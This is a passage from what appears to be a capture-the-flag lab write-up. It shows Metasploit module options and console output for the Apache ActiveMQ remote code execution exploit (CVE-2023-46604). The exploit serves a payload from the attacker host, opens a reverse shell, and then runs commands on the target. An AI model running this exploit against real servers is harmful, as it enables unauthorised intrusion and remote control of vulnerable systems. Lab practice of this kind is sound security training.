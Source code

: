 ```
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.10.14.5       yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux
```

which gives us

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] 10.10.11.243:61616 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.10.11.243:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.15.15
[*] 10.10.11.243:61616 - Using URL: http://10.10.14.5:8081/MGvLPsE9JAbexu
[*] 10.10.11.243:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.10.11.243:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] Sending stage (38 bytes) to 10.10.11.243
[*] Command shell session 1 opened (10.10.14.5:4444 -> 10.10.11.243:53978) at 2024-01-02 14:47:58 -0500
[*] 10.10.11.243:61616 - Server stopped.

whoami
activemq

ls -lh
total 6.4M
-rwxr-xr-x 1 activemq activemq 1.6M Jan  2 19:24 BCfxihll
-rwxr-xr-x 1 activemq activemq  250 Jan  2 19:47 XgdjDTJevOg
-rwxr-xr-x 1 activemq activemq  21K Apr 20  2021 activemq
-rwxr-xr-x 1 activemq activemq 6.1K Apr 20  2021 activemq-diag
-rw-r--r-- 1 activemq activemq  17K Apr 20  2021 activemq.jar
-rw-r--r-- 1 activemq activemq 5.5K Apr 20  2021 env
-rwxr-xr-x 1 activemq activemq 1.6M Jan  2 19:39 fHFcufBYAAO
drwxr-xr-x 2 activemq activemq 4.0K Nov  5 00:13 linux-x86-32
drwxr-xr-x 2 activemq activemq 4.0K Nov  5 00:13 linux-x86-64
drwxr-xr-x 2 activemq activemq 4.0K Nov  5 00:13 macosx
-rwxr-xr-x 1 activemq activemq 1.6M Jan  2 19:27 nVJLmZYFSY
-rwxr-xr-x 1 activemq activemq 1.6M Jan  2 19:23 psgHTHet
-rw-r--r-- 1 activemq activemq  82K Apr 20  2021 wrapper.jar
```
